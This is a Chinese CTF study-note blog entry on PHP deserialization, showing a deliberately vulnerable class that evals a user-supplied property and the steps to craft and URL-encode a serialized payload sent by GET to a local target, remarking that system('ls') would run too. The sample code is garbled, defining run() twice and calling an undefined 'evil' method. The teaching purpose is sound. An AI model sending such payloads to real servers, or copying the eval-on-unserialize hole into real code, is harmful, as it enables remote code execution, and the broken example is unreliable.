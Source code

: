 ```yaml
---
title: 20241219CTF学习笔记15
date: 2024-12-19
tags:
 - CTF
 - CTFLearn
categories:
   - 命理学 Numerology
isShowComments: true
publish: true














---
```


<Boxx/>

从0开始学习CTF，了解CTF基本规则、方法，这是开始打卡学习的第32天

[[toc]]

- 视频地址【[🔗传送门](https://www.bilibili.com/video/BV1Lh411F7s8/)】

<!-- more -->

# 第17章：反序列化例题讲解

## 例题讲解

```php
<?php
# 显示文件内容
show_source(__FILE__);
# 不报错
error_reporting(0);
class DEMO{
	public $func;
    public $arg;
    public function safe(){
        echo $this->arg;
    }
    public function run(){
        # 按php执行arg的值
        eval($this->arg);
    }
    public function run(){
        # this表示对象自己，func属性值给this，然后把总体给this
        $this->{$this->func}();
    }
    public function __construct(){
        $this->func = 'evil';
    }   
}
# GET方式传一个参数a，反序列化传给obj
$obj=unserialize($_GET['a']);
# 执行obj
$obj->run();
?>
```

反序列化题目做题步骤：

1. 复制源代码到本地

2. 注释掉和属性无关的内容

   跟属性相关的只有

   ```php
   public $func;
   public $arg;
   ```

3. 根据题目需要，给属性赋值

   应该会先执行`$this->func`，所以把func赋值成evil

   ```php
   public $func="evil";
   public $arg="phpinfo();";
   ```

4. 生成序列化数据，通常要urlencode

   ```php
   $d = new DEMO;
   echo urlencode(serialize($d));
   ```

5. 传递数据到服务器（攻击目标）

   使用HackBar传一个Get请求

   ```
   http://127.0.0.1:8080/unserialize/demo.php?a=O%3A4%3A%22DEMO%22%3A2%3A%7Bs%3A4%3A%22func%22%3Bs%3A4%3A%22evil%22%3Bs%3A3%3A%22arg%22%3Bs%3A10%3A%22phpinfo%28%29%3B%22%3B%7D
   ```

   这个请求下应该会执行phpinfo()，所以他应该也会执行其他命令，比如system('ls');''

